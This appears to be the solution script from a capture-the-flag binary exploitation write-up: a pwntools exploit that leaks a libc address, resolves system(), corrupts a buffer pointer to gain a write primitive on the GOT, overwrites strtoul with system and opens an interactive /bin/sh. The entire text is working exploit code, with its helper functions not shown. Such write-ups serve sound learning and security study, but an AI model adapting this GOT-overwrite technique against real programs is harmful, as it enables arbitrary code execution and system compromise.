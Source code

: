 ```py
io       = start()
rnd_leak = setup_player(io)
systm    = fetch_system(rnd_leak)

print('libc leak :: ', hex(rnd_leak))
print('system :: ' , hex(systm))

print('hot-patching `curr` to create a write primitive')
fill_bss_buff(io)       # adjusting `curr` over 0x400
payload  = b'woaaah'    # fixing alignment and reaching `cur` in memory
payload += p64(0xffffffffffffffa9) # setting `cur` to create a write primitive on the GOT, 
                                   # specifically on strtoul@GLIBC_2.2.5, which is located at [0x404078] 
waitforchoice(io)
io.sendline(payload)

print('Overriding strtoul@GLIBC with system()')
io.sendline(p64(systm))

waitforchoice(io)
io.sendline(b'echo gotit && /bin/sh')
io.recvuntil(b'gotit')
io.interactive()

```
